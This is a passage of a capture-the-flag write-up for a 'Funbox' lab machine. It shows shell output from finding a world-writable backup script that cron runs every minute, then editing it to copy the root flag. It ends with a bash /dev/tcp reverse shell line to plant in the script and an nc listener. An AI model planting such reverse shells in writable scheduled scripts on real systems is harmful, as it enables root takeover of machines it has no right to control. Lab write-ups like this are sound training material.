 #### Finding the backup script

```
joe@funbox:/home/funny$ ls -lai
total 47608
533886 drwxr-xr-x 3 funny funny     4096 Jul 18 10:02 .
524290 drwxr-xr-x 4 root  root      4096 Jun 19 11:50 ..
536659 -rwxrwxrwx 1 funny funny       55 Jul 18 10:15 .backup.sh
[SNIP]
```

This script may be run as cronjob
```
joe@funbox:/home/funny$ cat .backup.sh 
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

**Another file in the dir:**
```
joe@funbox:/home/funny$ cat .reminder.sh 
#!/bin/bash
echo "Hi Joe, the hidden backup.sh backups the entire webspace on and on. Ted, the new admin, test it in a long run." | mail -s"Reminder" joe@funbox
```

- The script is being run every minute

- It took me a long time to release this because the time is wrong.

```
joe@funbox:/home/funny$ stat html.tar 
  File: html.tar
  Size: 48701440  	Blocks: 95120      IO Block: 4096   regular file
Device: 802h/2050d	Inode: 533571      Links: 1
Access: (0664/-rw-rw-r--)  Uid: ( 1000/   funny)   Gid: ( 1000/   funny)
Access: 2020-10-09 00:34:45.831977679 +0000
Modify: 2020-10-09 00:58:01.619961040 +0000
Change: 2020-10-09 00:58:01.619961040 +0000
 Birth: -
joe@funbox:/home/funny$ date
Fri 09 Oct 2020 12:58:25 AM UTC
```
#### Getting the root flag:

Because I am lazy:
```
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
cp /root/flag.txt /home/flag.txt
```   

You are supposed to put a reverse shell, and start another listener to connect to it:
```
# ie. in backup:
/bin/bash -i >& /dev/tcp/AAA.BBB.CC.DD/1234 0>&1

# On your machine
nc -lvp 1234
```
